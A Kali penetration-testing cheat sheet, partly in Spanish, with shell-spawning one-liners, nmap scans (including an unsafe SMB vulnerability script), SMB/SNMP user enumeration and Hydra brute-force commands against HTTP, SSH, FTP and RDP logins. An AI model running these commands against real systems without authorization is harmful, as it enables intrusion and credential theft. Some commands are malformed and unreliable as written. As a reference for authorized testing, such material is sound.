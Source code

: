 #Kali-Help-Sheet

# TTY Shells
## Python TTY Shell Trick
`python -c 'import pty;pty.spawn("/bin/bash")'`

`python3 -c 'import pty;pty.spawn("/bin/bash")'`

#Spawn Interactive sh shell
`/bin/sh -i`

#Spawn Perl TTY Shell
`perl -e 'exec "/bin/sh";'`

#Spawn Ruby TTY Shel
`ruby -e 'exec "/bin/sh"'`

#Spawn Lua TTY Shell
`lua -e 'os.execute("/bin/sh")'`

#Spawn TTY Shell from Vi
`:!bash`

#Spawn TTY Shell from NMAP
`!sh`

# 🕵️ Recon and Enumeration

## 🌐 NMAP Commands

Nmap (“Network Mapper”) is a free and open-source utility for network discovery and security auditing. It's a versatile tool used by both systems and network administrators for tasks like network inventory, managing service upgrade schedules, and monitoring host or service uptime. Nmap runs on all major computer operating systems, and official binary packages are available for Linux, Windows, and Mac OS X.

### Commands

| Command | Description |
|---------|-------------|
| `nmap -v -sS -A -T4 target` | Nmap verbose scan, runs syn stealth, T4 timing, OS and service version info, traceroute and scripts against services. |
| `ping sweep sudo nmap -pn target` | Does a ping sweep over the target's network to see all the available IPs. |
| `nmap -v -sS -p–A -T4 target` | As above but scans all TCP ports (takes a lot longer). |
| `nmap -v -sU -sS -p- -A -T4 target` | As above but scans all TCP ports and UDP scan (takes even longer). |
| `nmap -v -p 445 –script=smb-check-vulns --script-args=unsafe=1 192.168.1.X` | Nmap script to scan for vulnerable SMB servers. |
| `nmap localhost` | Displays all the ports that are currently in use. |
| `ls /usr/share/nmap/scripts/* | grep ftp` | Search nmap scripts for keywords. |

# 👤 Username Enumeration

## SMB User Enumeration

| Command | Description |
|---------|-------------|
| `python /usr/share/doc/python-impacket-doc/examples/samrdump.py 192.16X.XXX.XXX` | Enumerate users from SMB |
| `ridenum.py 192.16X.XXX.XXX 500 50000 dict.txt` | RID cycle SMB / enumerate users from SMB |
| `enum4linux -U 192.16X.XXX.XXX` | Enumerate SMB usernames using enum4linux |
## SNMP User Enumeration

| Command | Description |
|---------|-------------|
| `snmpwalk public -v1 192.168.X.XXX 1 | grep 77.1.2.25` | Enumerate users from SNMP |
| `python /usr/share/doc/python-impacket-doc/examples/samrdump.py SNMP 192.168.X.XXX` | Enumerate users from SNMP |
| `nmap -sT -p 161 192.168.X.XXX/254 -oG snmp_results.txt` | Search for SNMP servers with nmap, grepable output |

# 🔒 Passwords

## Wordlists

| Command | Description |
|---------|-------------|
| `/usr/share/wordlists` | Kali word lists |
| `wget https://github.com/danielmiessler/SecLists/blob/master/Passwords/Common-Credentials/10-million-password-list-top-1000000.txt` | Download a popular wordlist from GitHub |

# 🐍 Hydra

# Guía rápida de Hydra

| Comando | Descripción |
|---------|-------------|
| `hydra -h` | Menú de ayuda |
| `hydra -C wordlist.txt SERVER_IP -s PORT http-get /` | Fuerza bruta de autenticación básica - Lista de palabras combinada |
| `hydra -L wordlist.txt -P wordlist.txt -u -f SERVER_IP -s PORT http-get /` | Fuerza bruta de autenticación básica - Listas de palabras de usuario/contraseña |
| `hydra -l admin -P wordlist.txt -f SERVER_IP -s PORT http-post-form "/login.php:username=^USER^&password=^PASS^:F=<form name='login'"` | Fuerza bruta de formulario de inicio de sesión - Usuario que sabemos + lista contraseñas |
| `hydra -L bill.txt -P william.txt -u -f ssh://SERVER_IP:PORT -t 4` | SSH Brute Force - Listas de palabras de usuario/contraseña |
| `hydra -l m.gates -P rockyou-10.txt ftp://127.0.0.1` | FTP Brute Force - Usuario que sabemos + lista contraseñas |


## Bruteforce de contraseña con usuario que sabemos

`hydra -l <username> -P /usr/share/wordlists/rockyou.txt http://<IP_Address>`

## Bruteforce de usuario y contraseña
`hydra -L /usr/share/wordlists/users.txt -P /usr/share/wordlists/rockyou.txt http://<IP_Address>`

## Bruteforce de SSH

`hydra -L username.list -P password.list ssh://10.129.202.136 `

## Bruteforce de RDP

`hydra -L username.list -P password.list rdp://10.129.202.136`
 
# 👨‍💻​ Compiling Exploits

| Header Files                                         | OS      |
|------------------------------------------------------|---------|
| `process.h, string.h, winbase.h, windows.h, winsock2.h` | Windows |
| `arpa/inet.h, fcntl.h, netdb.h, netinet/in.h, sys/socket.h, sys/types.h, unistd.h` | Linux   |


